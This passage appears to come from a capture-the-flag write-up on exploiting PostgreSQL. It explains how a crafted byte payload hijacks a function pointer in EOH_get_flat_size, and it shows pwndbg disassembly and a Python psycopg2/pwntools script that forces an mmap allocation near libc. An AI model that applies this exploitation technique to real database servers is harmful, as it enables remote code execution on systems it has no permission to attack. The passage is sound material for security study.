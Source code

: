 ```c
	return eohptr->eoh_methods->get_flat_size(eohptr);
}
```

Considering above code - we are able to fully control `ptr` variable in `DatumGetEOHP` function, so effectively we have a control over `get_flat_size` function pointer that is called just after `DatumGetEOHP` leading to arbitrary function call.

In order to call `EOH_get_flat_size` we have to construct our payload in the following way:
- first byte of our payload needs to be set to `0x01` - this is to satisfy `VARATT_IS_EXTERNAL_EXPANDED` macro in `heap_tuple_untoast_attr` function
- second byte has to be `0x02` to pass `VARATT_IS_EXTERNAL_EXPANDED` check and call `DatumGetEOHP`
- six bytes of address that will be copied to `ptr` variable. The trick is that we cannot use null bytes in our payload, so we have to rely on the fact that upper two bytes of pointer will be zeroed (which is not always the case)

Quick look on `EOH_get_flat_size` assembly:
```
pwndbg> disassemble EOH_get_flat_size
Dump of assembler code for function EOH_get_flat_size:
   0x0000556a61659620 <+0>:	mov    rax,QWORD PTR [rdi+0x8]
   0x0000556a61659624 <+4>:	jmp    QWORD PTR [rax]
```

`rdi` is the part that we control. In order to get code execution we have to point `rdi+8` to the address that after dereferencing would give us a function address. Unfortunately we don't know any heap address, so we cannot craft anything on heap. Fortunately, we are able to create and send a huge query string `postgres` will use `malloc` to allocate memory for our string, so if it would be big enough `malloc` will use `mmap` for creating a chunk, and it will be located at known offset from `libc`. We can verify that using the following python code:

```python
import psycopg2
from pwn import *

conn = None

def local():
    global conn
    conn = psycopg2.connect(host="localhost",user="ctf",password="123qwe!@#QWE",dbname="postgres")

def bigchunk():
    conn.commit(); cur = conn.cursor()
    cur.execute(b"SELECT '\\x" + b'aaaaaaaa' * 0x800000 + b"'::bytea, bpchar_sum('1', '           AABBCCDD')")
```

I'm using `ipython` to run commands (it is convenient to work with) - executed commands:

```py
%run solve.py
local()
# now attached gdb to process inside container
bigchunk()
```
